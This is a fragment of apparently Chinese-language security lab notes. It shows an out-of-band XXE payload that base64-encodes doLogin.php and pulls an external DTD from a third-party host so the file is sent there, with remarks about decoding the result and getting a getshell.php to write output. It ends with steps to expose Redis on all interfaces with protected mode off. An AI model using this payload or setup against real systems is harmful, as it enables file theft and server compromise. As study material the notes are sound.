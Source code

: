     ​![image](assets/image-20240922204207-9uv3zzp.png)​

3. payload  web请求抓包

    ​![image](assets/image-20240922210616-ypvjrr9.png)​

    ```python
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
    <!ENTITY % s SYSTEM "http://ftp6610290.host123.sanfengyun.cn/shell.dtd">
    %s;
    %send;
    ]>
    <user><username>
    &s;
    </username><password>222</password></user>

    ```

5. 第三方服务器查看返回来的文件内容，需要解码。

    ​![image](assets/image-20240922215228-8kal3a2.png)​
6. 坑：后面shellout.txt文件总是写不出来，需要将getshell.php的文件执行权限打开。777   ........😶(ˉ▽ˉ；)...

​​

## 在Kali安装Redis

```php
wget http://download.redis.io/redis-stable.tar.gz
#解压或两次解压
tar -zxf redis-stable.tar.gz
# 进入到 redis-stable 目录
cd redis-stable
# 编译
make
cd src
#修改配置
vim redis.conf
bind 127.0.0.1注释，修改为：bind 0.0.0.0
protected-mode yes修改为 no
启动/重载配置/重启
ps -ef | grep redis    #ip为*才对
```